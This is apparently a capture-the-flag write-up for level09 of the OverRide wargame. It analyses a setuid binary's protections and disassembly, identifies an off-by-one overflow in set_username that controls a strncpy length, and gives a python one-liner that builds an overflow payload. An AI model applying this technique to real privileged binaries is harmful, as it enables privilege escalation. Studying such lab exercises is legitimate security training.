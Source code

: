 Level09 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

Level09 rights:
```Shell
level09@OverRide:~$ ls -la level09 
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

handle_msg:
    - buffer[140]

set_username:
    - copy 40 bytes in buffer + 140.

set_msg:
    - use buffer + 180 as a size.
    - to copy as much bytes in buffer

Buffer seem to be a structure composed of two string and an integer. one string used in set_username (buffer + 140), the other in set_msg (buffer + 0). (buffer + 180) is used as an integer for the strncpy length.

```Shell
(gdb) disas handle_msg
Dump of assembler code for function handle_msg:
   0x00000000000008c4 <+4>:     sub    $0xc0,%rsp
```

192 bytes allocated:
    140:    string one
    40:     string two
    4 or 8: integer

possible struct:
    char*   msg[140];
    char*   username[40];
    int     size;

Vulnerability is in set_username, where 41 character in 40 character string username, overflowing in number, allowing us to determine the size of the strncpy in set_msg.

```Shell
python -c 'print("A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")' > /tmp/payload9
```